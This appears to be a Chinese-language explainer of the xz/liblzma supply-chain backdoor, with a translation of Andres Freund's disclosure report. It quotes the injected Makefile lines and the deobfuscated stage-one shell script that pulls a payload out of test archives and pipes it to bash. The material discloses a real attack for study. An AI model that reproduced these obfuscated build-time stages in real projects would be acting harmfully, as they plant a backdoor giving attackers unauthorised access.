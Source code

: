 # xz 是什么

xz 是一种通用的数据压缩格式，几乎存在于每个 Linux 发行版中，包括社区项目和商业产品发行版。本质上，它有助于将大型文件格式压缩（然后解压缩）为更小、更易于管理的尺寸，以便通过文件传输进行共享。  
XZ 是类 Unix 操作系统上的一种无损数据压缩格式，通常与 gzibzip2 等其他常见数据压缩格式进行比较。 XZ Utils 是一个命令行工具，包含 XZ 文件和 liblzma 的压缩和解压缩功能，liblzma 是一种用于数据压缩的类似 zlib 的 API，并且还支持旧版 .lzma 格式。  
3 月 29 日，有开发人员在安全邮件列表上发帖称，他在调查 SSH 性能问题时发现了涉及 XZ 包中的供应链攻击，进一步溯源发现 SSH 使用的上游 liblzma 库被植入了后门代码，恶意代码可能允许攻击者通过后门版本的 SSH 非授权获取系统的访问权限。恶意代码修改了 liblzma 代码中的函数，该代码是 XZ Utils 软件包的一部分，链接到 XZ 库的任何软件都可以使用此修改后的代码，并允许拦截和修改与该库一起使用的数据。

# 微软软件工程师 Andres Freund 在 opwnwall 报告了 xz 存在后门

在过去几周观察到 Debian sid 安装上的 liblzma（xz 软件包的一部分）周围的一些奇怪症状（使用 ssh 登录占用大量 CPU、valgrind 错误）后，我找到了答案：  
上游 xz 存储库和 xz tarball 已被设置后门。  
起初我以为这是 debian 软件包的损坏，但事实证明这是上游的。

## 受损的 tarball 包

后门的一部分*仅位于分布式 tarball 中*。为了更容易参考，这里有一个 debian 导入 tarball 的链接，但它也存在于 5.6.0 和 5.6.1 的 tarball 中：  
[https://salsa.debian.org/debian/xz-utils/-/blob/debian/unstable/m4/build-to-host.m4?ref\_type=heads#L63](https://salsa.debian.org/debian/xz-utils/-/blob/debian/unstable/m4/build-to-host.m4?ref_type=heads#L63)  
该行*不在* build-to-host 的上游源中，也不是 git 中的 xz 使用的 build-to-host 。然而，它存在于上游发布的 tarball 中，除了 “源代码” 链接，我认为 github 直接从存储库内容生成：  
[https://github.com/tukaani-project/xz/releases/tag/v5.6.0](https://github.com/tukaani-project/xz/releases/tag/v5.6.0)  
[https://github.com/tukaani-project/xz/releases/tag/v5.6.1](https://github.com/tukaani-project/xz/releases/tag/v5.6.1)  
这会注入一个混淆的脚本，在配置结束时执行。该脚本相当混乱，数据来自存储库中的 “test”.xz 文件。  
执行此脚本，如果某些前提条件匹配，则修改 $builddir/src/liblzma/Makefile 以包含

```plain
am__test = bad-3-corrupt_lzma2.xz
...
am__test_dir=$(top_srcdir)/tests/files/$(am__test)
...
sed rpath $(am__test_dir) | $(am__dist_setup) >/dev/null 2>&1
```

最终结果是...； sed rpath ../../../tests/files/bad-3-corrupt*lzma2.xz | tr“-*”“\_-”| xz -d | /bin/bash >/dev/null 2>&1; ...  
省略产生的 “| bash”

```plain
####Hello####
#��Z�.hj�
eval `grep ^srcdir= config.status`
if test -f ../../config.status;then
eval `grep ^srcdir= ../../config.status`
srcdir="../../$srcdir"
fi
export i="((head -c +1024 >/dev/null) && head -c +2048 && (head -c +1024 >/dev/null) && head -c +2048 && (head -c +1024 >/dev/null) && head -c +2048 && (head -c +1024 >/dev/null) && head -c +2048 && (head -c +1024 >/dev/null) && head -c +2048 && (head -c +1024 >/dev/null) && head -c +2048 && (head -c +1024 >/dev/null) && head -c +2048 && (head -c +1024 >/dev/null) && head -c +2048 && (head -c +1024 >/dev/null) && head -c +2048 && (head -c +1024 >/dev/null) && head -c +2048 && (head -c +1024 >/dev/null) && head -c +2048 && (head -c +1024 >/dev/null) && head -c +2048 && (head -c +1024 >/dev/null) && head -c +2048 && (head -c +1024 >/dev/null) && head -c +2048 && (head -c +1024 >/dev/null) && head -c +2048 && (head -c +1024 >/dev/null) && head -c +2048 && (head -c +1024 >/dev/null) && head -c +724)";(xz -dc $srcdir/tests/files/good-large_compressed.lzma|eval $i|tail -c +31265|tr "\5-\51\204-\377\52-\115\132-\203\0-\4\116-\131" "\0-\377")|xz -F raw --lzma1 -dc|/bin/sh
####World####
```
